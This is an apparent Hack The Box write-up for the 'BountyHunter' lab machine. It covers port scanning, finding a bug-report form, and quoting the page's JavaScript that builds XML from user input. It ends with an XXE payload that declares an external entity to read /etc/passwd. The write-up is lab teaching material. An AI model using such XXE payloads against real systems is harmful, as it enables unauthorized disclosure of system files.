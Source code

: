# BountyHunter

## Recon
The [nmap scan](../resources/bounty_hunter/nmap_scan) showed just 2 open ports - 22 and 80, and not much else about the servers.
First thing to do was check the web server.

## Web Server Recon
The site showed a basic landing page with not much on it.
A static analysis didn't show much on the landing page so we tried clicking around.

Eventually we found ourselves on a form which seemed to be for reporting bugs.

We checked the form for SQL injection but didn't find anything.
It turned out that it didn't submit anything, all it did was display the values from the form back on the page for you.

Finally a look through the page source showed something with more promise - [bountylog.js](https://github.com/finn-francis/hackthebox/blob/main/resources/bounty_hunter/bountylog.js)
```javascript

function returnSecret(data) {
	return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>${$('#exploitTitle').val()}</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}
```

Generating an XML file with javascript is a very dangerous thing to do, so we started checking for XXE vulnerabilities.

## XXE
First we had to check whether we could read local files, so we added a simple file disclosure XXE:
```javascript
    ...
    var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <bugreport>
    <title>&xxe;</title>
    <cwe>${$('#cwe').val()}</cwe>
    ...
```
